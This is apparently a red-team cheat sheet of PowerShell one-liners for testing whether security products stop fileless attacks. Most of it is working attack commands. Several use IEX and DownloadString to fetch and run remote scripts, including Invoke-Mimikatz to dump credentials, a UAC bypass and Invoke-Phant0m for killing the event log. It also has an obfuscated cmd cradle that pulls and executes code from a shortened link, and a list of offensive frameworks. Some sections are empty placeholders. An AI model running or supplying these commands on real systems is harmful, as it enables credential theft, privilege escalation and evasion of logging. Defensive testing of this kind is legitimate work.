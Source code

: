 

# Powershell

Every product today reports they can prevent fileless, living off the land, nation state :all_the_things: . I say - prove it.

http://www.labofapenetrationtester.com/2015/04/pillage-the-village-powershell-version.html

https://www.blackhillsinfosec.com/?p=5831

## One Liners

### Download Mimikatz and Dump credentials

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

### Invoke-AppPathBypass

Note: Windows 10 only

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

    Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass"

At prompt, to test:

    C:\Windows\System32\cmd.exe

### Obfuscated Powershell

Fancy obfuscation that reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

## Powershell Obfuscation

Provided by @danielbohannon

[Out-FINcodedCommand](https://github.com/danielbohannon/Out-FINcodedCommand/blob/master/README.md)


Setup:

    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/danielbohannon/Out-FINcodedCommand/master/Out-FINcodedCommand.ps1')

Input:

    Out-FINcodedCommand -command "iex (iwr http://bit.ly/L3g1t).content" -FinalBinary powershell

Follow prompts to create variables.

Output:

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"



[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

Input:

    code here

Output:

    code here

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Input:

    code here

Output:

    code here

## Powershell Kits

### Unicorn

https://github.com/trustedsec/unicorn/blob/master/README.md

### Empire

http://www.powershellempire.com/

### Bloodhound

https://github.com/BloodHoundAD/BloodHound

### GoFetch

https://github.com/GoFetchAD/GoFetch

### Deathstar

https://github.com/byt3bl33d3r/DeathStar

https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html

### PowerSploit

https://github.com/PowerShellMafia/PowerSploit

### Nishang

https://github.com/samratashok/nishang

### PSAttack

https://github.com/jaredhaight/PSAttack

### Dr0p1t-Framework

https://github.com/D4Vinci/Dr0p1t-Framework

### PowerOPS

https://github.com/fdiskyou/PowerOPS

    powershell.exe Copy ([PSObject].Assembly.Location) C:\

Then:

    csc.exe /unsafe /reference:"C:\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\users\ieuser\desktop\PowerOPS_x64.exe /platform:x64 "C:\Users\IEUser\Downloads\PowerOPS-1.0-beta\PowerOps\*.cs"

### Invoke-AutoIt

https://github.com/byt3bl33d3r/Invoke-AutoIt

    Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/byt3bl33d3r/Invoke-AutoIt/master/Invoke-AutoIt.ps1'); Invoke-AutoIt -WindowTitle "Remote Desktop" -Keys "Rainbow Push-ups""

### Invoke-Phant0m

https://github.com/hlldz/Invoke-Phant0m

    Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://github.com/hlldz/Invoke-Phant0m/blob/master/Invoke-Phant0m.ps1'); Invoke-Phant0m"

# Other

### DNScat2-powershell

https://github.com/lukebaggett/dnscat2-powershell
